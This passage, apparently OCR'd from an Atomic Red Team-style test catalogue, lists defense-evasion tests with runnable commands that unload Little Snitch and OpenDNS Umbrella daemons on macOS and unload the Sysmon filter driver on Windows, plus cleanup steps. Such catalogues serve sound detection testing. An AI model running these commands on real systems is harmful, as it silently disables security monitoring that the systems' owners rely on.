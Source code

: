 ```sh
sudo launchctl unload /Library/LaunchDaemons/at.obdev.littlesnitchd.plist
```

<br/>
<br/>

## Atomic Test #7 - Disable OpenDNS Umbrella

Disables OpenDNS Umbrella

**Supported Platforms:** macOS

#### Attack Commands: Run with `sh`!

```sh
sudo launchctl unload /Library/LaunchDaemons/com.opendns.osx.RoamingClientConfigUpdater.plist
```

<br/>
<br/>

## Atomic Test #8 - Unload Sysmon Filter Driver

Unloads the Sysinternals Sysmon filter driver without stopping the Sysmon service. To verify successful execution, o
verify successful execution,
run the prereq_command's and it should fail with an error of "sysmon filter must be loaded".

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| sysmon_driver | The name of the Sysmon filter driver (this can change from the default) | string | SysmonDrv|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
fltmc.exe unload #{sysmon_driver}
```

#### Cleanup Commands:

```cmd
sysmon -u -i > nul 2>&1
sysmon -i -accepteula -i > nul 2>&1
%temp%\Sysmon\sysmon.exe -u > nul 2>&1
%temp%\Sysmon\sysmon.exe -accepteula -i > nul 2>&1
```

#### Dependencies:  Run with `powershell`!

##### Description: Sysmon must be downloaded
